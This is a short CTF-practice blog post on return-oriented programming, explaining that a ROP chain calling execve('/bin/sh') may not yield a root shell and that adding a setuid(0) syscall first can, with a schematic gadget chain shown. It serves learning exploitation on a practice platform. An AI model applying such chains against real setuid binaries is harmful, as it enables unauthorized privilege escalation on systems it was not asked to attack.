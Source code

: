 ```yaml
---
layout: post
title: Some Notes on ROP Chain, execve, and setuid
tags: [CTF, pwn]
---
```


So I was practicing ROP on [pwn.college](https://pwn.college/) (btw this is a really cool website, pwn environment set up for you? never heard of that),
I noticed something strange(?) after getting a shell from a ROP chain.

```
$ id
uid=1000(hacker) gid=1000(hacker) groups=1000(hacker)
```

I am not root?

Then I realized that maybe a `setuid` is required before `execve`, which works out perfectly.

So if `execve` doesn't give you a root shell, try adding `setuid` before it may work.
The ROP chain would then be

```
pop_rax + 0x69 # setuid, nice
pop_rdi + 0x0 # or any other uid you need
syscall

pop_rax + 0x3b # execve
pop_rdi + <addr to /bin/sh>
pop_rsi + 0x0
pop_rdx + 0x0
syscall
```

Notice that according to the reference website, it may not work if the attacked binary is not a `setuid` binary.
See the reference website for more detail.

# Reference
- [SetUID Rabbit Hole \| 0xdf hacks stuff](https://0xdf.gitlab.io/2022/05/31/setuid-rabbithole.html)
